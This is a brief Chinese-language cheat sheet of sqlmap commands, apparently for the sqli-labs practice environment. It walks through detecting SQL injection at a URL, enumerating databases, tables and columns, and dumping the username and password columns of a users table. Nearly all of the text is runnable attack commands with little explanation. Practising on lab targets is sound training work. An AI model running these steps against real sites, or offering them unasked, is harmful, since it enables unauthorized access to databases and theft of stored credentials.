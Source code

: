 对url进行检测，判断是否存在SQL注入

```shell
sqlmap.py -u url --batch

sqlmap.py -u http://193.168.10.26/Less-1/?id=2 --batch
```



获取数据库
获取全部数据库

```shell
sqlmap.py -u url --dbs --batch

sqlmap.py -u http://193.168.10.26/Less-1/?id=2 --dbs --batch
```



获取当前数据库

```shell
sqlmap.py -u url --current-db --batch

sqlmap.py -u http://193.168.10.26/Less-1/?id=2 --current-db --batch
```



获取数据库中的表

```shell
sqlmap.py -u url -D DB --tables --batch

sqlmap.py -u http://193.168.10.26/Less-1/?id=2 -D security --tables --batch
```



获取表中的列

```shell
sqlmap.py -u url -D DB -T TBL --columns --batch

sqlmap.py -u http://193.168.10.26/Less-1/?id=2 -D security -T users --columns --batch
```



获取列中的数据

```shell
sqlmap.py -u url -D DB -T TBL -C COL --dump --batch

sqlmap.py -u http://193.168.10.26/Less-1/?id=2 -D security -T users -C "id,username,password" --dump --batch
```

